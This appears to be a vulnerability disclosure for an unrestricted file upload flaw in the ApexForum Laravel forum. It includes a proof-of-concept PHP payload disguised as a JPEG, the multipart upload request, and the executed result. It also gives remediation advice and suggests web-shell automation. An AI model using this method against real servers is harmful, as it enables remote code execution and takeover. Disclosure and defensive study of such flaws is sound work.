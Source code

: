 # 📤 ApexForum - Arbitrary File Upload to Remote Code Execution (RCE)

📌 **Product Information**  
**Platform**: Laravel  
**Affected Feature**: File Upload Endpoint  
**Tested Vulnerability**: Unrestricted File Upload (PHP Code Execution)  
**CVE**: Not Assigned  
**Severity**: Critical (Unauthenticated File Upload to RCE)  
**CWE ID**: CWE-434  
**CWE Name**: Unrestricted Upload of File with Dangerous Type  
**Patched**: ❌ Not Applicable  
**Patch Priority**: 🔴 High  
**Date Published**: August 10, 2025  
**Researcher**: Yucaerin  
**Vendor**: [ApexForum](https://www.codester.com/items/46152/apexforum-the-ultimate-forum-platform)

---

⚠️ **Summary of the Vulnerability**  
The `upload` endpoint in ApexForum's Laravel application fails to properly validate uploaded files. Attackers can upload arbitrary files with embedded PHP code by disguising them as images, which the server stores in a publicly accessible directory.  
When accessed, the uploaded PHP file executes on the server, resulting in **Remote Code Execution (RCE)**.

---

## 🧪 Proof of Concept (PoC)  

### ➤ Step 1 - Craft Malicious Image with Embedded PHP
Example payload (`bq.jpg`):
```php
ÿØÿà<?php echo 'hello world'; ?>
```

### ➤ Step 2 - Upload via Vulnerable Endpoint
```http

Content-Type: multipart/form-data; boundary=----WebKitFormBoundary

------WebKitFormBoundary
Content-Disposition: form-data; name="image"; filename="bq.jpg"
Content-Type: image/jpeg

ÿØÿà<?php echo 'hello world'; ?>
------WebKitFormBoundary--
```

**Response:**
```json
{
  "status":200,
  "url":"https:\/\/localhost\/public\/uploads\/trumbowyg\/20fd17f01763a1130306e93ee0015250.php"
}
```

---

### ➤ Step 3 - Trigger the Payload
Access:
```
https://localhost/public/uploads/trumbowyg/20fd17f01763a1130306e93ee0015250.php
```
**Output:**
```
hello world
```

✅ **Indicators of Success**:
- Server accepts `.php` files.
- Payload is executed upon visiting the file URL.
- Full RCE is possible.

---

## 🔍 Where’s the Flaw?
- No server-side MIME type or extension validation.
- No file content scanning to detect embedded PHP.
- Upload directory is publicly accessible and executes `.php` files.

---

## 🔐 Recommendation
- Restrict allowed file types/extensions server-side (e.g., `.jpg`, `.png`, `.gif` only).
- Validate MIME type and file signature (magic bytes).
- Store uploads outside the web root or serve them via a non-executable handler.
- Configure web server to prevent execution of scripts in the upload directory.
- Sanitize file names and paths.

---

## ⚙️ Optional Automation Features
An automated exploit could:
- Craft a PHP web shell disguised as an image.
- Access the uploaded file to execute commands remotely.

---

## ⚠️ Disclaimer  
This PoC is for **educational and authorized security testing** only.  
Do **not** target systems without explicit permission. Unauthorized exploitation is illegal.
